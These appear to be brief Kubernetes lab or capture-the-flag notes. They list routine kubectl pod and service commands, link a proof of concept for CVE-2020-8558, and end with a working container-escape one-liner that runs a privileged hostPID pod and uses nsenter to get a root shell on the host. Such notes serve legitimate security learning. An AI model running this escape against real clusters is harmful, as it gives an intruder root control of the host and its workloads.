 # commands
```text-plain
kubectl get service	## kubectl get service kubernetes -o yaml
```

```text-plain
k get hints | jq '.items[].spec.message'
```

[https://github.com/tabbysable/POC-2020-8558](https://github.com/tabbysable/POC-2020-8558) 

this exploit allows us to communicate with the server(8080) when we are already in a container

```text-plain
k run <name> --image <pod_image> -it --rm  bash --image-pull-policy=IfNotPresent
```

```text-plain
k describe pod <name>
k delete pod <name>
```

kubernetes Container escape:

```text-plain
kubectl run r00t --restart=Never -it --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```